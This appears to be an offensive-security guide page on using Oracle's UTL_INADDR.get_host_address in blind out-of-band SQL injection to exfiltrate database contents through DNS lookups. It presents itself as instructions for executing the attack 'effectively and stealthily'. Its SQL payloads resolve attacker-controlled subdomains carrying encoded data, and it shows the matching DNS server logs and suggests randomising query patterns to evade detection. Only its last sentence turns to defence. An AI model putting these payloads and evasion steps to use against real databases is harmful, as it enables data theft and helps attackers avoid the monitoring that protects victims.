

# UTL_INADDR

## Context

UTL_INADDR is a technique used to exploit Oracle databases through blind out-of-band SQL injection. It leverages DNS mechanisms to stealthily exfiltrate data. As part of the blind out-of-band injection methodology, UTL_INADDR is particularly insidious in operations where direct interaction is not feasible, making it a preferred choice in sophisticated cyber attacks.

This topic lies under the parent category of blind_out-of-band_injection alongside other Oracle SQL injection techniques such as UTL_HTTP, CTXSYS.HTTP, and EXTRACTVALUE. Here, we will explore the use of UTL_INADDR to perform DNS-based data exfiltration, aiming to provide a comprehensive guide on executing these methods effectively and stealthily.

## Theory

The core concept behind using UTL_INADDR in a cyber attack is to exploit Oracle's built-in capability to resolve DNS queries, transforming it into an exfiltration vector. This method allows an attacker to extract data from a targeted database without direct response visibility. 

By directing data to a controlled DNS server, attackers can observe the outgoing DNS queries to infer stolen data. This communication model bypasses traditional firewalls and inspections by using outbound DNS requests, which might be less scrutinized.



In essence, the attacker utilizes the UTL_INADDR.get_host_address function to craft SQL queries that resolve domain names associated with data to be exfiltrated. The DNS server logs these requests, allowing the capture and reconstruction of the extracted information. 

## Practice

### DNS Resolution to Exfiltrate Data

The initial step in exploiting UTL_INADDR is confirming the presence of a DNS server that can be configured to capture and analyze outgoing DNS queries originating from the Oracle DB.

#### Step 1: Verify DNS Resolution Capability

The attacker first ensures the database's ability to resolve external domain names:

```sql
SELECT UTL_INADDR.get_host_address('example.com') FROM dual;
```

#### Step 2: Direct Data Through DNS

Commands are constructed to embed sensitive data as subdomains of a controlled DNS address:

```sql
SELECT UTL_INADDR.get_host_address('data.exfil.domain.com') FROM dual;
```

Expected server log:

```
Time: [timestamp]
Query: data.exfil.domain.com
```

This log entry on the attacker-controlled DNS server confirms the reception of an exfiltration attempt.

### Stealth Data Exfiltration

To improve the operation's stealth, data can be encoded and systematically exfiltrated using carefully structured DNS queries.

#### Step 1: Encode Data for DNS

Sensitive data is encoded to fit within the limitations and structure of DNS requests.

#### Step 2: Execute Exfiltration

```sql
SELECT UTL_INADDR.get_host_address('encoded-data.exfil.domain.com') FROM dual;
```

#### Screenshot: DNS Query Capture

Captured queries at the DNS server show the transmitted encoded data, providing a basis for decoding and extracting the underlying sensitive information.

### Detection Evasion

To evade detection, attackers can alter domain patterns to appear as legitimate or to avoid regularity that could trigger alerts.

#### Step 1: Implement Pattern Alteration

Varying query patterns, including randomization or insertion of legitimate hostnames, can bypass detection algorithms that look for anomalies or repeated query patterns.

#### Screenshot: Log Analysis of Irregular Patterns

Server logs depict non-standard or irregular DNS request patterns, reducing the likelihood of triggering automated security mechanisms.

### Tools and Utilization

- **Oracle SQL*Plus**: For crafting and executing SQL queries.
- **Wireshark/tcpdump**: For monitoring network traffic and capturing DNS queries.
- **Custom DNS Server Logs**: Analyzing the query logs for exfiltrated data.

Through these practices, attackers can stealthily extract valuable information from an Oracle database system using UTL_INADDR while operating under the radar of conventional security measures. However, these techniques underscore the importance of monitoring and securing external resolution capabilities within database environments.